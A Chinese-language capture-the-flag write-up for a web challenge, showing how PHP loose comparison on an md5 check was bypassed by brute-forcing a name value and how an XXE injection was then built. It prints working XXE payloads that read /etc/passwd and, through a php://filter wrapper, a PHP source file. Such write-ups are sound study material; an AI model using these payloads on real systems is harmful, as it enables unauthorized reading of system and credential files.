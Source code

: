 # 性感黄阿姨在线聊天
## 考察知识点：
### 1.php弱类型
### 2.json引申xxe漏洞攻击

## 解题思路
### 1. 随便发送数据测试，发送flag时，感觉有蹊跷，抓包查看一下
![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/DED9E2F31CF14A28B9433C44483C9A02性感黄阿姨在线聊天1.png)

### 2. 将数据包中的guest,改为admin
![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/B2D6627901254D8C987FD7DCD9988A9B性感黄阿姨在线聊天2.png)
发现提示：`{"response":"admin\u4e5f\u4e0d\u884c! \/\/if($name==md5($flag)){flag in ...}"}`

如果发送的name\==md5(flag)则告诉我们flag的位置，此处我们只能考虑php的弱类型，刚好也有个==

大致思路:就是爆破name，只要md5(flag)的前几位为数字，爆破name，就能绕过限制，没看wp真没想出来

当name=357时，返回flag文件。那下一步思路就是进行文件读取。
![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/DE10EBFE5B804F7DAF0F1833544C0C20性感黄阿姨在线聊天3.png)

一些弱类型的小测试：

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/06909289FCBA4209B8C2A57836605D00性感黄阿姨在线聊天4.png)

### 3.文件读取有几个思路
#### 3.1 命令执行，代码执行
#### 3.2 文件包含伪协议
#### 3.3 xxe
#### 3.4 ....
### 4.此处发送的数据包为json数据，由json可以联想到xml数据是否也能解析

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/D7C2785A2B02433D807D08A9319071B8性感黄阿姨在线聊天5.png)
看来是解析了，此处没有返回flag文件的路径是因为xml文件的字段为字符串，'357'与'375abc'不相等。

### 5.构造xxe
payload:
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE xxe[
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
   <root>
     <name>&xxe;</name>
     <request>flag</request>
   </root>
```

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/D1045268E66B40609192FE590D8D8B5C性感黄阿姨在线聊天6.png)

直接读取f14g_Is_Here.php文件读取不出来，因为php文件中含有<特殊符号，xml解析时报错了

这里可以采用伪协议：

payload：
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE xxe[
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=./_f14g_Is_Here_.php">
]>
   <root>
     <name>&xxe;</name>
     <request>flag</request>
   </root>
```
![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/0F0A6CE15A854F37A2D48B47FF6FE5A0性感黄阿姨在线聊天7.png)

### 6.解码得到flag
![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/B799E679E2C942E988E65C9F472ED18E性感黄阿姨在线聊天8.png)